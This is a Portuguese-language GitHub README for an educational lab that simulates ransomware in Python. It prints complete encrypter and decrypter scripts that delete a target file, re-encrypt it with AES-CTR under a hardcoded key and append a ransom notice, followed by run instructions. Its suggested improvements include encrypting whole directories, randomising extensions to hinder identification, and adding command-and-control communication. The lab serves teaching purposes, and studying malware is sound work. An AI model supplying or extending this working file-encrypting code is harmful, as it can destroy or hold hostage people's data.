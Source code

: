 # LAB-02:  Entendendo um Ransomware na Prática com Python

## Resumo

Simular um ataque de ransomware simples, criptografando um arquivo e adicionando uma mensagem de resgate.
Demonstrar os conceitos básicos de criptografia e como um ataque de ransomware funciona.

***Este código é fornecido apenas para fins educacionais e demonstrativos. O uso indevido pode resultar em consequências legais.***

## Simulação de Ransomware em Python

### Arquivos

<details>
<summary>Encrypter</summary>

**Função:** Criptografa o arquivo especificado.

**Processo:**
* Lê o arquivo alvo.
* Criptografa o conteúdo usando o algoritmo AES em modo CTR com uma chave pré-definida.
* Adiciona uma mensagem de resgate ao final do arquivo criptografado.
* Sobrescreve o arquivo original com a versão criptografada.

**File:** [encrypter.py](./source_code/encrypter.py)

**Código-Fonte:**

```python
import os
import pyaes

file_name = "TARGET"
file = open(file_name, "rb")
file_data = file.read()
file.close()

os.remove(file_name)

key = b"@@---->>ChavatteSecurity<<----@@"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name

insert_warning = """#!#!#!
    +-----------------------------------------------------------------+
    |                                                                 |
    |                DADOS ENCRIPTADOS COM SUCESSO!!!!                |
    |                                                                 |
    |        Este ataque simulado demonstra a facilidade com que      |  
    |    dados podem ser comprometidos por ransomware.                |
    |        Mesmo em um cenário simplificado,                        |
    |    a ameaça é real e os riscos são elevados.                    |
    |                                                                 |
    |                       Ethical Disclaimer:                       |
    |     Este código é destinado apenas para fins educacionais.      |
    |                                                                 |
    +-----------------------------------------------------------------+
    """

text_bytes = insert_warning.encode('utf-8')

final_data = crypto_data + text_bytes

with open(f'{new_file}','wb') as new_file:
    new_file.write(final_data)
    new_file.close()
```
</details>

<details>
<summary>Decrypter</summary>

**Função:** Descriptografa o arquivo criptografado.

**Processo:**
* Lê o arquivo criptografado.
* Identifica a posição da mensagem de resgate.
* Remove a mensagem de resgate.
* Descriptografa o conteúdo criptografado usando a mesma chave utilizada na criptografia.
* Sobrescreve o arquivo original com a versão descriptografada.

**File:** [decrypter.py](./source_code/decrypter.py)

**Código-Fonte:**

```python
import os
import pyaes

file_name = "TARGET"
file = open(file_name, "rb")
file_data = file.read()
file.close()

key = b"@@---->>ChavatteSecurity<<----@@"
aes = pyaes.AESModeOfOperationCTR(key)

warning_index = file_data.find(b"#!#!#")

if warning_index != -1:
    file_data = file_data[:warning_index]

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = "TARGET"

with open(f'{new_file}','wb') as new_file:
    new_file.write(decrypt_data)
    new_file.close()
```
</details>

## Como Usar

### Requisitos:

* Python instalado
* Biblioteca pyaes instalada
```
pip install pyaes
```

### Configuração:

* Modifique a variável `file_name`, caso queira, em ambos os scripts para especificar o arquivo alvo.
* A chave de criptografia key é definida nos scripts. Para maior segurança, utilize chaves mais complexas e geradas aleatoriamente.

### Execução:

* Execute o script encrypter.py para criptografar o arquivo.
```
python encrypter.py  
```
* Execute o script decrypter.py para descriptografar o arquivo.
```
python decrypter.py 
```

### Exemplo de Uso:

<img align="center" src="./assets/print.png" />

## Segurança

Este é um exemplo simplificado. Ataques de ransomware reais utilizam algoritmos mais complexos, chaves mais longas e mecanismos de persistência.

Nunca compartilhe a chave de criptografia com terceiros.

Faça backups regulares dos seus dados para se proteger contra perdas.

## Limitações

A chave utilizada é estática e conhecida por ambos os scripts. Em um cenário real, a chave seria gerada aleatoriamente e transmitida de forma segura.

O algoritmo AES em modo CTR é vulnerável a ataques se a mesma chave de inicialização (IV) for reutilizada.

## Melhorias

Implementar a geração de chaves aleatórias.

Utilizar diferentes modos de operação do AES para maior segurança.

Adicionar funcionalidades como:
* Criptografia de diretórios inteiros.
* Extensões de arquivos aleatórias para dificultar a identificação.
* Comunicação com um servidor de comando e controle para receber instruções.
